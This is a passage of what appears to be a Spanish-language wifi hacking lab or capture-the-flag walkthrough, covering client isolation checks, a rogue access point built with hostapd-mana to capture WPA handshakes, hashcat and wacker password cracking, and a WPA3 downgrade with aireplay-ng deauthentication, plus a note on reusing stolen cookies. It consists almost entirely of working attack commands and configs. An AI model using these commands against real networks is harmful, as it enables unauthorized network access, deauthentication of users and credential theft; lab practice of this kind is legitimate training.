 ```bash
dhclient wlan3 -v
# Usar cookies robadas del tráfico descifrado
```

## 11. Aislamiento de clientes wifi-mobile
```bash
arp-scan -I wlan3 -l
curl IP_CLIENTE
```

## 12. Contraseña wifi-office (RogueAP)
```bash
# hostapd.conf
interface=wlan1
driver=nl80211
hw_mode=g
channel=1
ssid=wifi-offices
mana_wpaout=hostapd.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678

hostapd-mana hostapd.conf
hashcat -a 0 -m 2500 hostapd.hccapx ~/rockyou-top100000.txt --force
```

## 13. Contraseña wifi-management (WPA3)
```bash
cd ~/tools/wacker
./wacker.py --wordlist ~/rockyou-top100000.txt --ssid wifi-management --bssid F0:9F:C2:11:0A:24 --interface wlan2 --freq 2462
```

## 14. Contraseña wifi-IT (WPA3 Downgrade)
```bash
# hostapd-sae.conf
interface=wlan1
driver=nl80211
hw_mode=g
channel=11
ssid=wifi-IT
mana_wpaout=hostapd-management.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678

hostapd-mana hostapd-sae.conf
iwconfig wlan0mon channel 11
aireplay-ng wlan0mon -0 0 -a F0:9F:C2:1A:CA:25 -c CLIENT_MAC
hashcat -a 0 -m 2500 hostapd-management.hccapx ~/rockyou-top100000.txt --force
```
